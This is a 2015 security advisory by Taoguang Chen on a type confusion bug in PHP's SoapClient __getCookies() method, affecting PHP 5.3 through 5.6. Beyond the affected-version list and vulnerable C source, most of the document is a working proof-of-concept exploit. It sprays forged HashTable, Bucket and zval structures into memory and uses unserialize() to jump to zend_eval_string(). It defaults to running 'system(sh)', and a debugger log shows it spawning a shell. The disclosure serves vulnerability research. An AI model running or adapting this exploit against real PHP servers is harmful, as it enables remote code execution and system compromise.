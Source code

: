 # Type Confusion Vulnerability in SoapClient
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20
 
> A type confusion vulnerability was discovered in SoapClient object's __getCookies() method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
``` c
PHP_METHOD(SoapClient, __getCookies)
{
	zval **cookies, *tmp;

	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	array_init(return_value);

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "_cookies", sizeof("_cookies"), (void **)&cookies) != FAILURE) {
		zend_hash_copy(Z_ARRVAL_P(return_value), Z_ARRVAL_P(*cookies), (copy_ctor_func_t) zval_add_ref, (void *)&tmp, sizeof(zval*));
	}
}
```

The Z_ARRVAL_P macro leads to pointing a fake array-type ZVAL in memory via a fake HashTable and a fake Bucket. This should result in arbitrary code execution.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

``` php
<?php

ini_set("memory_limit", -1);

if ($_SERVER['argc'] < 2) {
	$_SERVER['argv'][1] = 'system(sh);exit;';
}

setup_memory();

$exploit = 'O:10:"SoapClient":1:{s:8:"_cookies";s:'.strlen($hashtable).':"'.$hashtable.'";}';
$z = unserialize($exploit);
// $z = new SoapClient(null, array('location' => "", 'uri' => ""));
// $z->_cookies = $hashtable;
$z->__getCookies();

function setup_memory()
{
	global $str, $hashtable;
	
	$base = 0x114000020;
	$bucket_addr = $base;
	$zval_delta = 0x100;
	$hashtable_delta = 0x200;
	$zval_addr = $base + $zval_delta;
	$hashtable_addr = $base + $hashtable_delta;
	$func_addr = 0x100351e3d; // zend_eval_string()'s address
	
	$bucket  = "\x01\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= ptr2str($bucket_addr + 3*8);
	$bucket .= ptr2str($zval_addr);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	
	$hashtable  = "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x01\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str($bucket_addr);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= "\x00";
	$hashtable .= "\x00";
	
	$zval = ptr2str($hashtable_addr);
	$zval .= ptr2str(0);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x04";
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
  
	$shellcode = ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($hashtable_addr + 6*8);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($func_addr);
	$shellcode .= ptr2str($hashtable_addr + 9*8);
	$shellcode .= "\x65\x76\x61\x6c\x28\x24\x5f\x53\x45\x52\x56\x45\x52\x5b\x27\x61\x72\x67\x76\x27\x5d\x5b\x31\x5d\x29\x3b\x00"; // eval($_SERVER['argv'][1]);
	
	$part = str_repeat("\x73", 4096);
	for ($j=0; $j<strlen($bucket); $j++) {
		$part[$j] = $bucket[$j];
	}
	for ($j=0; $j<strlen($shellcode); $j++) {
		$part[$j+$hashtable_delta] = $shellcode[$j];
	}
	for ($j=0; $j<strlen($zval); $j++) {
		$part[$j+$zval_delta] = $zval[$j];
	}
	
	$str = str_repeat($part, 1024*1024*256/4096);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run tcpoc.php 'system\(sh\)\;exit\;'
Process 2606 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Jan  8 2015 22:33:37) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 2606 exited with status = 0 (0x00000000) 
(lldb) 
```

